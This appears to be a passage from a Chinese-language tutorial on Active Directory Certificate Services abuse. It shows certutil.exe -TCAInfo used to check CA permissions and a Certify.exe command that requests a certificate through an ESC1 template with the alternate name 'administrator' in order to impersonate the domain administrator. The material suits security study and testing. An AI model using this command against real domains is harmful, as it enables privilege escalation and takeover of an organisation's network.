 ![](assets/1711960542-4ec3e3992e8c5081ca83c63d97277218.png)

使用 `certutil.exe -TCAInfo` 判断 CA 状态及当前用户请求的权限情况

![](assets/1711960542-a53b4898e1f44567dd83c4a9bf0965f9.png)

利用 Certify 的 set altname 来伪造 administrator 身份尝试得到证书

```plain
Certify.exe request /ca:"CA01.corp.qihoo.cn\corp-CA01-CA" /template:”ESC1“ /altname:administrator
```
